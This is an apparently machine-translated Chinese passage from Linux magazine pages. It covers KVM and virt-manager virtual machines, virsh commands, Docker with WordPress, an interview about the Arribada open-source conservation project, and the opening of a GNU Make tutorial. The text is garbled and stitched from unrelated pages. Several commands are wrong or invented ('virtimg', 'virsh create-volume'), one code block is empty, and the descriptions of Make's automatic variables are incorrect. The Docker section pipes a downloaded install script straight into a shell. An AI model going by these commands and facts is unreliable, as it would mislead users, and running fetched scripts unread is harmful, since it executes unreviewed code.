在接下来的几页中，我们将探索全虚拟化和半虚拟化。虚拟化是一个非常广泛的领域，但我们将为你提供部署和管理完整虚拟机的知识，以及如何在服务器上运行容器。如果你是初学者，此功能还将帮助你利用手头看似有限的计算能力，即使在桌面上也是如此。

> 大多数虚拟化解决方案都是硬件辅助的，以提供近乎原生的性能

### 功能：虚拟化你的系统

**快速提示**

完整性检查

使用 `host-validate` 来执行完整性检查，验证主机虚拟化能力并正确配置 `libvirt`。

在硬件上安装和运行完整的操作系统，虚拟化通过以下方式实现。Linux 发行版为你提供了广泛的开源和专有选项，其中 `KVM`（基于内核的虚拟机）于 2007 年首次亮相。`KVM` 提供了管理虚拟机的方便方法，例如硬件设备接口。如前所述，`KVM` 是一组内核模块：`kvm-intel.ko`、`kvm-amd.ko` 和 `kvm.ko`。通过这些模块，你还使用 `virt-manager` 来外设。现在你可能导航到桌面的菜单。一旦应用程序启动，它会自动建立与虚拟机监控程序（`qemu-kvm`）的连接。`QEMU` 是一个开源虚拟机仿真器，被 `KVM` 修改以解释并执行指令。相比之下，虚拟机提供了一个驱动程序，容器提供了一个抽象操作系统

## 创建虚拟机

`virt-manager` 是用 Python 编写的，操作非常直观。它的仪表板显示了虚拟机的摘要，并提供了它们的性能统计。使用 `virt-manager` 你可以创建虚拟机、监控它们并进行更改。该应用程序包含一个指向虚拟机的控制台。

在开始之前，要创建一个虚拟机，前往 `File > New VM`。这会出一个虚拟机窗口，将过程分为五个步骤。首先被要求选择安装方法，然后是安装媒体，然后指定虚拟机的内存和磁盘空间。`virt-manager` 还根据 `libvirt` 数据库中的信息检测操作系统。默认情况下，应用程序在 `/var/libvirt/images` 下存放虚拟磁盘；你也可以使用存储存储池。随后，新生成的虚拟机将启动并安装在物理计算机上。默认情况下，`KVM` 提供 `NAT` 网络，这不需要主机网络上的其他设备。然而，它们拥有对主机系统的访问权限，除非你计划运行如你的虚拟机并从那里访问。

![img/47577d3c443392bbdb486de17c4a70_20_0.png]

![img/47577d3c443392bbdb486de17c4a70_20_1.png]

## 使用 virt-manager 你可以轻松创建虚拟机、监控它们并更改

`Storage` 标签页允许你配置各种类型的存储并监控它们的状态。将存储池视为一组虚拟磁盘。在 `virt-manager` 中你可以选择各种存储作为虚拟磁盘，包括本地存储、网络存储、卷托管存储等。

`virt-manager` 中的 `Storage` 标签页提供了用于配置和管理存储池的简单界面。界面列出了所有存储池。右侧面板显示所选池的概览，包括其名称、类型、状态（活动）以及存在于该池中的虚拟磁盘。在这种情况下，你需要使用其他网络配置。除了 `NAT`，你还可以使用 `virt-manager` 创建让虚拟机与主机处于同一个虚拟网络。要设置虚拟网络，前往 `Edit > Connection Details`。`Overview` 标签页提供了虚拟网络的基本信息（例如在使用命令行界面时），以及主机计算机处理器和内存的使用详情。`Interfaces` 标签页提供了主机网络并在并相关配置。

在 `virt-manager` 中创建不同类型的存储池。对于文件存储（最常用的），虚拟磁盘存储在主机系统上的目录中。你可以使用此目录作为虚拟磁盘。要创建一个存储池，点击绿色 `+` 按钮启动新存储池向导。在两两步过程中，输入池的名称和

| :--- | :--- |
| `app A` | `app A` |
| `app B` | `app B` |
| `app C` | `app C` |
| `bins libs` | `bins libs` |
| 客体操作系统 | 客体操作系统 |
| 虚拟机监控程序 | `Docker` |
| 主机操作系统 | 主机操作系统 |

![img/47577d3c443392bbdb486de17c4a70_20_2.png]

![img/47577d3c443392bbdb486de17c4a70_20_3.png]

![img/47577d3c443392bbdb486de17c4a70_20_4.png]

![img/47577d3c443392bbdb486de17c4a70_20_5.png]

![img/47577d3c443392bbdb486de17c4a70_20_6.png]

![img/47577d3c443392bbdb486de17c4a70_20_7.png]

在进入下一步之前，请将类型指定为文件系统（`Filesystem`）。第二步将根据你上一步选择的类型详细说明配置参数。对于文件系统目录，你只需要选择目标路径（`Target Path`），即主机系统上你想要存储虚拟磁盘的确切位置。

当你熟悉 `virt-manager` 后，你也可以通过在存储池（`Storage Pool`）向导中选择选项来创建卷。现在你不再选择标准池，而是被要求选择一个目标路径，可以通过选择现有的 `LVM` 卷组或创建一个新的卷组。如果你打算创建一个 `LVM` 卷组、输入目标路径或指定存储设备路径（例如 `/dev/sdb`），则源路径（`Source Path`）字段是可选的。

一旦你创建了存储池，就可以在其中添加卷。这些是将被挂载到虚拟机上的实际磁盘。要创建存储卷，请选择一个存储池和大小，然后点击右侧面板中的“创建”（`Create`）按钮。

`virt-manager` 是一个帮助你熟悉虚拟化过程的极佳媒介。然而，从远来看，使用自定义 shell 脚本配置虚拟机更高效。幸运的是有 `libvirt`，它是一个暴露了各种 API 以管理虚拟机和主机的库。此类命令行工具提供了指向 `libvirt` API 的接口。

要创建一个新机器，`virt-install` 是一个 Python 脚本，你可以用它定义机器并创建 XML 定义，而无需费心处理 XML。在创建虚拟机之前，你需要为它使用一个存储镜像。其中一种方法是使用 `virt-img` 命令。例如，以下命令将创建一个 20GB、`qcow2` 格式且命名为 `fedaserver` 的存储镜像：

```bash
virtimg create -f qcow2 /media/vmdisks/fedaserver.qcow2 20G
```

一旦你创建了磁盘镜像，就可以创建虚拟机了。这里有一个 `virt-install` 安装示例，它为 Fedora 服务器安装创建了一个虚拟机。它整合了





- `virsh list [--all] --inactive` 显示激活和未激活的虚拟机
- `virsh start/suspend/resume/reboot/shutdown --id <id>` 通过名称或域 ID 控制虚拟机
- `virsh save <vm-name> --name` 保存虚拟机状态
- `virsh restore <name> --save` 从保存的文件恢复虚拟机
- `virsh autostart [--disable] --id <id>` 在主机启动时自动启动
- `virsh dumpxml <id> > filename.xml` 将虚拟机转储为 XML 文件
- `virsh define <file.xml>` 从文件创建虚拟机
- `virsh pool-list` 列出所有存储池
- `virsh pool-info <pool-name>` 显示存储池信息
- `virsh vol-list <pool-name>` 显示存储池内的卷
- `virsh create-volume <pool-name> --name=<name> 50G` 在存储池中创建一个 50GB 的卷


## 虚拟机管理命令

- `virsh destroy <vm-name> --volume=<name>` 从存储池中删除
- `virsh wipe <vm-name> --volume=<name>` 安全擦除卷
- `virsh snapshot-list <id>` 列出虚拟机的所有快照
- `virsh snapshot-info <id> [--current] --snapshotname` 查看虚拟机或你指定的快照的信息

## 使用模板创建虚拟机

基于模板在其他虚拟机（VM）中安装你想要的所有组件。例如，为了部署一个包含许多科学应用程序的 CentOS 工作站实验环境，可以创建一个具有适当大小磁盘的虚拟机（我们将其命名为 `template_CentOS-Labs`）并安装最新的工具。然后登录到该虚拟机并安装你需要的一切内容。设置好模板虚拟机后，你的工作就完成了。

接下来，我们将移除系统配置，以便所有虚拟机都具有相同的名称和密码，且不包含你的私 SSH 密钥。如果不是这样，就很奇怪了。为了避免这种麻烦，我们将为每个镜像使用相同的密钥。除外，该工具还会移除 SSH 密钥、为网络接口创建新的 MAC 地址、清理日志文件等。

```bash
### $ virt-sysprep -d template_CentOS-Labs
```

`-d` 选项允许该工具处理连接到指定客户机的所有虚拟磁盘。你也可以使用 `-a` 指定特定的磁盘镜像，例如：

```bash
### $ virt-sysprep -a /var/lib/libvirt/centos.qcow2
```

有关清理操作的更多信息，请输入 `virt-sysprep --list` 以显示它可以执行的 30 项任务列表。带有星号标记的任务将默认运行，而未标记的任务在需要时需要手动启用。使用 `--operations` 选项后跟一个用逗号分隔的你想要执行的任务列表。

```bash
### $ virt-sysprep --operations ssh-hostkeys,user- -d template_CentOS-Labs
```

以上就是全部。你现在可以像操作演示中那样使用模板镜像部署虚拟机了。

> 模板也是类似于快照的虚拟机副本，但用于快速克隆虚拟机。

重要的是，你必须确保这台虚拟机永远不会启动，否则它将不再处于抑制状态，并可能导致通过这种方式部署的其他虚拟机出现问题。良好的做法是将要作为模板的虚拟机的 XML 配置导出并复制其虚拟磁盘（使用 `-a` 选项），然后使用它来部署其他虚拟机。

阅读 `virt-sysprep` 工具的页面，它还可以通过添加用户或运行启动脚本来自定义虚拟机。



确保你想要使用的虚拟机正在运行。然后运行 `virt-sysprep` 命令来重置、取消配置虚拟机的任何特定于系统的设置。最好为它重命名并标记它（如 `template_CentOS-Labs`）以避免启动它。

现在启动 `virt-manager` 并选择指定的模板虚拟机。右键点击并选择“克隆（clone）”，这将显示“克隆虚拟机”窗口。为克隆提供一个名称并花时间检查其设置。默认情况下，`virt-manager` 会为任何连接的硬盘创建副本。



为了避免以后出现问题，你应该更改虚拟磁盘的 MAC 地址。点击“网络”部分的“详细（Details）”按钮，并更改虚拟网卡的 MAC 地址。现在点击“克隆（Clone）”按钮开始复制过程。根据虚拟磁盘的大小，这将需要一些时间。



## 快速提示

### FQDN

实时迁移要求两台机器都具有完全限定域名（FQDN），而不是命名为 localhost。

### 通过将活动虚拟机迁移到另一台机器来确保最大的运行时间

迁移是将虚拟机从一个主机移动到另一个主机的过程，是虚拟化的关键特性之一。你可以迁移在线和离线虚拟机。离线迁移为目标主机提供客户机的镜像。当源主机上的内存释放后，虚拟机将在目标主机上恢复。为了避免停机，虚拟机必须使用共享存储池。这确保了迁移过程只需要向新主机传输一小部分时间（新主机需要传输内存到另一台主机）。实时迁移在迁移开始时不停止虚拟机，让客户在源主机上运行。

将 `<source-host>` 替换为具有共享存储的机器 IP 或 地址。现在回到源主机并使用 `virsh` 命令迁移虚拟机：

```bash
```

### 为了避免中断，最好避免离线迁移

将 `<vm-name>` 替换为你想要迁移的虚拟机名称，使用 SSH 详细信息以确认远程用户的身份验证，命令将提示你确认迁移。迁移可能需要一段时间，取决于网络，并且默认可能会报告错误，但你可以使用 `--progress` 选项显示迁移进度。虚拟机在源主机上继续运行直到完全启动。使用 `virsh list` 进行验证。

当源主机上的内存释放后，虚拟机将在目标主机上恢复。为了避免停机，虚拟机必须使用共享存储池。这确保了迁移过程只需要向新主机传输一小部分时间（新主机需要传输内存到另一台主机）。实时迁移在迁移开始时不停止虚拟机，让客户在源主机上运行。

### Docker 安装

虽然 Docker 在官方存储库可用，但最好是从 Docker 仓库获取最新版本。获取官方脚本并执行它：`curl -fsSL https://get.docker.com | sh`。安装完成后，启动 Docker 服务并确保它在后续启动时自动运行：`sudo systemctl enable docker`。

### Docker 安全性

使用 [Docker Benchmark 脚本](https://github.com/docker-bench-benchmark/) 来评估在生产环境中部署 Docker 容器的常见最佳实践。

你可以从 hub.docker.com 搜索并拉取容器镜像。如需登录，你需要创建一个免费账户来发布你自己的



# 专家评论

Kashyap Chamamarty, Red Hat 云工程小组

你可以使用 QEMU 创建一个临时的 qcow2 文件，该文件使用你的原始镜像作为备份文件。运行时的所有新写入操作都将进入 qcow2 文件。当你在 QMP 监控器中退出 QEMU 时，它会将 qcow2 文件中的更改写回原始镜像。

要使用的容器。首先，在你想要存储 WordPress 和 MariaDB 文件的目录中创建一个新目录 - 例如，在你的用户主目录中：

```
$ mkdir -~/wordpress
$ cd ~/wordpress
```

然后拉取 MariaDB 镜像：

```
$ docker run -e MYSQL_ROOT_PASSWORD=<password>
-e MYSQL_DATABASE=my_password
--name my_docker-db
-v \$(pwd)/v "$(pwd):/var/lib/mysql"
-d mariadb
```

为容器定义的环境变量选项，例如数据库密码和其名称。将 <password> 替换为你所需的名称。这是容器的名称。最重要的选项是 `-v "$(pwd):/var/lib/mysql"`。它要求 Docker 映射由冒号分隔的两个文件夹。右侧是 `/var/lib/mysql`（容器内部文件夹），左侧是宿主机上 Docker 存储数据库数据的文件夹。

使用 `docker pull` 拉取镜像然后启动该容器：

```
$ docker run -e WORDPRESS_DB=<password>
--name my_wordpress
--link my_docker-db:mysql
-v \$(pwd)/html:/var/www/html
-p 80:80 wordpress
```

确保你设置了 WordPress 的环境变量作为 MariaDB 数据库的密码。`--link my_docker-db:mysql` 选项将 WordPress 容器连接到 MariaDB 容器，以便应用程序相互通信。`-v` 选项充当卷的作用，并确保容器 `/var/www/html` 文件夹下的内容与当前目录同步。

该命令将在后台启动容器并将其放入指定的设置中。你可以通过 `docker ps` 确认 MariaDB 容器正在运行。你也可以将过程分为两个步骤。首先，你可以仅将 WordPress 下载到容器的内部端口 80：将 server 替换为服务器的公共 IP 地址。除了使用公共 IP 地址，你也可以直接使用 `127.0.0.1:8888` 告诉 Docker 将容器的 80 端口转发到 `http://localhost:8080`。

 如果你更改了任何内容（如端口映射），你将必须先停止容器，然后删除它，并使用 `docker run` 命令带有新参数重新启动。


如之前提到的，容器包含了应用程序及其配置和依赖。这意味着运行容器的底层 Linux 发行版不再需要支持其所有依赖的项，而是经过精简优化的发行版，例如 `Container Linux`、`RanchOS`、`Atomic Host` 等。这些发行版在生产环境中运行容器已日益成为标准。每个发行版都带有一套功能，使其适用于不同类型的部署。

当你运行容器时，可以使用 `docker logs -f my_wordpress` 监控其日志文件。你可以使用 `docker stop` 停止容器，或使用 `docker start` 重启它。如果你更改了任何内容（如端口映射），你将必须先停止容器，然后删除它，并使用 `docker run` 命令带有新参数重新启动。

## Docker Compose

虽然 `Docker` 非常有名，但它并不是最好的工具。这就是为什么我们使用 `Docker Compose` 工具来定义和运行容器。它使得部署多个容器变得异常简单。它本质上是人类可读的 `YAML` 数据序列化语言：

`Container Linux`（以前称为 `CoreOS`）是一种专为托管容器从零构建的生产级操作系统。它的优势是，一旦新的 `Docker` 容器接入网络，它就会自动检测。该发行版还使用 `Google` 的 `Kubernetes` 来管理它们。

`Docker Compose` 本质上由 `Docker` 容器组成。如果你使用 `Docker Compose` 使用容器，那么通过 `Docker` 就可以轻松使用多个容器。如果你运行 `Red Hat` 服务器，请查看 `CentOS`、`Fedora` 或 `RHEL`，它们为 `Hat` 服务器创建了表格将 `Docker` 集成到你的网络中。还有 `Alpine Linux`，它最初是 `LEAF`（`Linux Embedded Alpine` 项目）的分支。它的创始人现在就 `Docker`，`Docker` 使用该发行版来构建其包。

> 在 `KVM` 和 `Docker` 中，你有两种成熟的开源技术可以提高生产力，它们列出了一个或多个容器的特性或选项，可以通过单个容器实现。

为了使用 `Docker CLI` 展示其优势，我们将使用 `Docker Compose` 重建 `MariaDB` 和 `WordPress` 容器。使用来自 `https://github.com/docker-compose/example/wordpress` 文件夹的简单指令创建 `docker-compose.yaml` 文件：

```
$ cd wordpress
$ nano docker-compose.yml
database4:
  image: mariadb
  environment:
    MYSQL_PASSWORD: <password>
    MYSQL_DATABASE: my_wordpress
  volumes:
    - /database:/var/lib/mysql
my-wp:
  image: wordpress
  volumes:
    - /html:/var/www/html
```

选项与之前相同，只是更详细。保存文件并运行 `docker-compose up` 创建容器。使用 `docker-compose logs -f` 监控容器的输出，也用于各种任务。

我们涵盖了足够让你运行的内容，但仅触及了表面。

无论你使用虚拟化还是容器（甚至在虚拟机中运行容器），`KVM` 和 `Docker` 你都有两种成熟的技术，可以提高你在各种设置和区域的生产力。此外，你还有一种方法可以虚拟化 `Linux` 并为应对硬件灾难做好准备。

### Chris Thornett 访问了 Arribada 计划的幕后推手，并发现开源技术方法如何打破障碍并降低保护自然世界的成本

- `Alasdair Davies` 是 Arribada 计划的创始人，同时也是伦敦动物学会和 `Shuttleworth` 基金会的技术专家。

- 核心信息

`Alasdair Davies` 于 2017 年建立了 Arribada 计划，旨在通过开源开发的力量，为保护领域提供廉价、可定制的科技产品和项目。

其他参与者还包括 `Naturebytes`，`http://naturebytes.org`。

什么让 Arribada 与众不同？

Arribada 突出的开源项目之所以与众，是因为它做得很好。`Davies` 说：“想一下它在保护工作中擅长什么，”他认为这具有巨大的潜力。


上方：Arribada 计划的一个项目是全年监测南极企鹅的种群。

> 保护工作并不便宜。幸运的是，开源硬件和软件潜力改变我们保护和监测地球的方式。关键在于使用最低成本提供最高价值的技术，这非常重要。

`Alasdair Davies` 与来自 Arribada 的硬件技术专家 `Volff` 在一起，`Volff` 在基准保护和开源方法讨论几天前对我们进行了采访。位于几内亚湾非洲西岸外的普林林普西岛（`Prince Island`）有一项海龟保护计划，在绿海龟返回筑巢时使用追踪系统。你可以在这里看到一些精彩的视频：`https://youtube.be/jfHL44I`

`Davies` 说，给动物打标签本质上是昂贵的，但正如现在与他合作的 `Shuttleworth` 学金获得者所说：“我想谈谈获取廉价且开源保护技术的问题。”自从被选为 `Shuttleworth` 学金获得者，通过无与伦比的组织——Arribada 计划，一直致力于实用的开源保护解决方案，他的绿海龟项目可能是最为人知的，最近被 `Raspberry Pi` 基金会报道过。

`Davies` 说，标记海龟的成本每个标签可能长达 4,000 英镑。但那只有在你遵循传统路线时才会如此：“如果我们拆解标签的组成，它本身就是一台嵌入式计算机，”`Davies` 说。使用 `Raspberry Pi` 作为模块，结合 `RF`（射频）以及若干个管理系统，只要有正确的组件，你就可以为自己制作一个非常廉价的、负担得起消耗的标签。在硬件方面，Arribada 的绿海龟标记系统使用了一个 `Raspberry Pi Zero HAT` 摄像头模块和两块锂电池。每个标签成本约为 200 英镑（见右侧“标记海龟”）。

与 `IRNAS`——系统内先进系统开发研究所合作，

通过邮件向我们发送你喜欢的项目：`linuxuser@future.com`


当 `Davies` 讨论保护工作时，这显然是他一生的热忱，源于他青少年时期在欧洲背游，探索国家公园并沉浸在自然世界。但当他谈到为 `Principe Trust` 从事的海龟工作时，他变得几乎近乎痴迷。

“对我来说真正重要的项目之一是普林西普岛的海龟标记，”`Mark Shuttleworth` 说道，他是 `Canodil` 的创始人，他对该岛屿本身进行了投资——基本上是为了创建一个生态旅游项目。`Davis` 解释说，`Shuttleworth` 需要一个保护计划来负责任地管理。“我最初必须去那里。基本上他们找我：‘你们如何帮助我们保护海域外的海龟？你们能开发一个开源解决方案吗？’于是，我带着几位帮助开发解决方案的成员去了那里，我们正在使用带有无线充电器的 `Raspberry Pi W`。”

上方：Arribada 的亚马逊森林监测系统正在一个比秘鲁礁更严苛的环境中进行测试。

Arribada 计划专攻开源硬件开发，还被用于开发海龟标签的开源外壳，外壳完全使用 3D 打印机制造，并使用开源共享软件。“预算很小，”`Davis` 说，“所以我说：‘管你们有限的预算吧，自己动手做 10 个标签——蓝图都在网上。如果你是开发者，你现实中需要这些工作的软件是这样的。’”

Arribada 的另一个项目是监测秘鲁的亚马逊雨林。该项目的核心重点是 `AAMP`，即基于摄像头的 Arribada 亚马逊监测平台。

## 有了 Raspberry Pi W，我们可以制作非常廉价、负担得起的标签

对于这个项目的问题，`Davis` 的回答是：“我如何帮助人们进入树冠？或者他能否监测并看到那里发生了什么？从环境角度来看，你可以观察质量，观察光照。因此你可以检测树冠是否随时间发生变化，它会为你记录下来。当你看到野生动物出现时，你可以观察野生动物进出保护区。你可以观察它们的存在或缺席。”

此外，在雨林中建立无线网络极其昂贵。一种远距离 `RF` 协议非常擅长穿透长距离。可以发送小数据包。我们一直在研究作为一个开源平台，例如使用改装的 `Peli` 箱箱（一种非常坚固、防水的存储箱）。”“再次，在 `Davies` 选择的设备内部，运行着一个 `Raspberry Pi`——‘我是 `Raspberry Pi` 的脸’——它出现在我的许多项目中。”

这个项目还展示了巧妙的协作。

`Davis` 补充说，标签还将追踪威胁。

例如



底座用树脂固定在海龟上。当它干燥后，团队附上标签。当母龟返回巢穴更换标签，并在繁殖季节结束时完全移除标签。

# InspiringOS 开源保护事业

快速事实

`Instant Detect 2.0`


# Arribada 计划与 ZSL 合作开发 Instant Detect 2.0 系统

Arribada 计划正与 ZSL（伦敦动物学会）合作开发一个连接卫星的 `Instant Detect 2.0` 系统。

`bit.ly/InstantDetect20`


工作在 `PIRA` 上运行，用于离网太阳能运行。基于环境光传感器和其他输入，`PIRA` 可以捕获信息。

传感器，因此它可以检测水位。在某个项目中，这至关重要——如果上游有大坝或灌溉抽取了过多水，那里的濒危鱼类就会灭绝。我们有一个远距离 Wi-Fi 链路，我们可以定义基础命令。我们可以说“告诉我水位”，或者由于环境变化停止水流。”

所以，“我们很乐意看到人们说：‘是的，这里有不同的用途。我们可以适配它吗？’答案是肯定的，因为它是开源的，没有限制。我们可以给他们软件，他们可以自己做，然后再次分享。我们分享，其他人可能会说：‘噢，太棒了，我从未见过它用于监测，但我见过它用于——’”

Davis 表示，他们现在已经在 `GitHub` 上创建了一个可用的蓝图：“这只是软件。你可以下载蓝图并制作外壳，自己完成所有的加工和准备。再次允许你使用廉价的技术改变环境，而且这一切都是开源且可访问的。你可以打开它放入任何你想要的东西——一个声学记录器，”

上方是 Arribada 的原始记忆。你可以在 `github.com/RRAS-ambida-ampa` 下载蓝图。

> 我们有一个远距离 Wi-Fi 链路，我们可以执行基础命令。我们可以说“告诉我电池状态”

人们可以适配并承担 Arribada 的所有权和责任，这非常强大。“无论水平如何，他们都可以采取并为自己服务，或者要求我们为他们使用，但这是……”

单位 Davis 谈到了头部技术中专有技术的问题。“有些人被提到，我可能收到过非常难听的邮件，我要进入准入：准入障碍一直是军事解决方案。”Davis 说他见过许多军事卫星通信解决方案。“有人发现了机会去销售——’”

## 焦点聚焦

## AudioMath

AudioMath 由 Alex Rogers 在牛津大学创立，它从牛津大学和南安普顿大学的一个研究项目演变而来，旨在开发一种低成本、免费的环境和生物多样性监测软件。它是一个需要额外帮助的典型案例：“我们面临的许多开源项目的一个问题是，它们往往缺乏长期支持。”

Davies 在布斯托尔的一次会议上结识 Alex Rogers，由于价格实惠，这使得进展变得非常顺利。它的价格为 14.99 美元，而同类商业产品售价 750 美元。因此，很多人想使用它，但他们需要有人来汇总设备成本并让他们脱离互联网，以便他们可以在某些廉价的开源设备上运行。这与 Kickstarter 的逻辑相同：如果你能规模化地制造设备，就能降低成本。”Davies 和 Arribada 通过什鲁斯基金会承担了这项工作。

源声日志记录器，Arribada 已通过实际方式支持了该设备（见上文）。

Davies 承认这是一个昂贵的想法。“这让我从伦敦的快乐生活来到了普林西普岛的海滩，在海浪中与海龟和海豚一起工作。我曾在亚马逊雨林工作，我们在那里安装了监测平台。我们正在对海洋中的动物进行标记。而目前，

开源软件必须是开放的。如果它是开放的，我们需要真正的研究人员能够修改他们想要的软件，而不受到限制；我们有机会让他们更进一步，在没有传统资金支持的情况下进行研究——这样他们就可以将其分享给社区并说：‘你能为我做这个吗？’

你可以在 `http://blog.arribada.org` 或通过 `@Davies` 和 `@arribada_` 跟踪各种 Arribada 倡议项目的进展。

Davies 表示，鱼鳍-Arribada 标记系统代表海滩上的雌性海龟“停止”，它反映了需要一种廉价的方法为它们贴上标签。上文，Arribada 装甲监测平台 (AAMP) 是与斯洛文尼亚的 IRNAS 学院一起设计的。

看到这种情况持续多年，并发现自己经常感到沮丧，因为他可以帮助科学家和寻求定制解决方案的研究人员，“让我们创建一个可以让你在没有空间的情况下访问互联网的系统吧。那些事情就像是‘好吧，这就是我们拥有的全部。所以我愿意花 10,000 美元用于这个连接来解决问题。’

对于这一切，“我们将继续努力，并开始向社区证明有更好的方法来获得我们所需的，特别是在预算有限的情况下。”在世界上极其昂贵的、本质上使用昂贵的硬件和软件

Arribada 倡议还帮助 Davies 发现，这就是为什么我们有“Arribada”这个词的原因，它是海龟产卵地的名字。Davies 表示，意图是相同的：作为一个开发者社区，通过规模化合作来解决问题，促进开放保护。

“你找到一个可能需要解决方案并愿意付费的开发者——太棒了，但有太多的邮件要回复——或者多年以后，他们发现自己仍然是那个项目的负责人；他们是领导，并且存在依赖关系，然后他们被辞退了，无法从长期上支持它。”AudioMath 就是其中的例子，一个开源的


# 核心 Linux

## 第二部分

## 使用 GNU Make 编译程序：高级规则

John Gower 是编程和计算机科学领域的大学导师。他喜欢在他每一个能拿到的设备上安装 Linux，并每天调整终端命令和 shell。

在上一期中，我们学习了编写 `Makefile` 的基本概念以及 `Makefile` 是如何工作的。在这一期中，我们将查看 Make 的一些高级功能，这些功能可以简化编写规则的过程。我们上个月学习了如何使用规则来避免代码重复。然而，由于许多项目是用简单的 `Makefile` 构建的，`Makefile` 涉及到大量的重复代码。对于更复杂的项目，`make` 可能会变得无法接受地缓慢并且迅速变得。

## 隐式规则

在第一篇文章中使用的 `Makefile` 中，创建新 `.o` 文件的配方看起来非常相似。

[注：后文如下]

我们在本期中将学习的工具将使我们能够自动化编写规则的过程，以及如何使用变量构建多个文件。

最重要的工具是模式规则（pattern rule），它允许我们通过观察来识别特定类型的文件（源文件、对象可执行文件，例如）。我们还将学习不是用于构建文件但而是打算单独运行的规则——“模式规则”：

# 资源

- 一个运行 Bash shell 的终端（在 Linux 发行版上）

- GNU Make（大多数 Linux 均包含）可以从 `https://www.gnu.org/software/make/` 下载

- 一个用于测试的简单规则

代码重复在 `Makefile` 中和任何其他编程语言中都很糟糕。Make 提供了机制来避免这一点。最简单的方法是使用“隐式规则”。这意味着什么？好吧，Make 会查找匹配目标的规则。它知道如何使用 C 编译器编译。

## 模式规则和自动变量

Make 提供的隐式规则是有用的，但对于所有情况都不够。由于语言每天都在创建，替代方案是使用模式规则。当我们为某个名称编写模式规则时，它可以用于任何其他名称。例如，这是一个用于编译源文件的模式规则，D 语言的编译器 `d`

```make
%o : %d
dnd -c $< -o $@
```

 `$@` 和 `$<` 被称为“自动变量”。上次，我们可以说在 Make 中声明变量与我们在编写脚本时声明变量的方式相同（某些不同）。Make 提供了许多包含目标名称的自动变量。在这种情况下，如果我们想创建一个规则的文件，那么变量 `$<` 将设置为目标文件的值。同样，当有多个文件时，`$` 会给出第一个规则的名字。我们可以通过指定一个没有配方的规则来覆盖依赖项的列表。例如，我们可能会这个函数

## 自动变量

- `$@`：当前规则的目标名称

- `$<`：第一个前提条件（prerequisite）的名称

- `$$`：所有前提条件的空格分隔列表

- `$*`：在模式规则内部，目标的通配符（stem）：例如，如果目标是 `$@` 而特定文件是 `@`，那么通配符就是 `player`

## 隐式规则

